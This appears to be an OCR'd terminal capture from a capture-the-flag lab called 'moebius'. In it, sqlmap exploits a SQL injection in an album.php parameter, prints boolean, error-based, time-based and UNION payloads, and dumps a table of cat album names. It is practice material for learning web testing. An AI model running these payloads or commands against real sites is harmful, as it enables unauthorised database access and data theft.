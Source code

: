 [18:55:32] [INFO] fetched data logged to text files under '/home/alvan/.local/share/sqlmap/output/moebius.thm'
[18:55:32] [WARNING] your sqlmap version is outdated

[*] ending @ 18:55:32 /2025-08-15/

                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/moebius]
└─$ sqlmap -u 'http://moebius.thm/album.php?short_tag=smart' -p short_tag -D web -T albums --dump   
        ___
       __H__                                                                                                        
 ___ ___[)]_____ ___ ___  {1.8.5#stable}                                                                            
|_ -| . ["]     | .'| . |                                                                                           
|___|_  [']_|_|_|__,|  _|                                                                                           
      |_|V...       |_|   https://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:56:00 /2025-08-15/

[18:56:01] [INFO] resuming back-end DBMS 'mysql' 
[18:56:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 7563=7563-- IGsL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 3761 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(3761=3761,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vzPc

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: short_tag=smart' AND 5750=BENCHMARK(5000000,MD5(0x50755a70))-- JJUJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-2214' UNION ALL SELECT CONCAT(0x71626b6271,0x756e71587362614b515a505a6565476471464b4a7268417549625548576e52634453717a54624a6c,0x717a767871)-- -
---
[18:56:02] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.4, Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:56:02] [INFO] fetching columns for table 'albums' in database 'web'
[18:56:20] [INFO] resumed: 'short_tag','text'
[18:56:20] [INFO] resumed: 'name','text'
[18:56:20] [INFO] resumed: 'description','text'
[18:56:20] [INFO] fetching entries for table 'albums' in database 'web'                                            
[18:57:01] [INFO] retrieved: 'Cutest cats in the world'                                                            
[18:57:02] [INFO] retrieved: 'Cute cats'
[18:57:03] [INFO] retrieved: 'cute'
[18:57:04] [INFO] retrieved: 'My favourite ones'
[18:57:05] [INFO] retrieved: 'Favourite cats'
[18:57:06] [INFO] retrieved: 'fav'
[18:57:06] [INFO] retrieved: 'So smart...'
[18:57:13] [INFO] retrieved: 'Smart cats'
[18:57:15] [INFO] retrieved: 'smart'
Database: web
Table: albums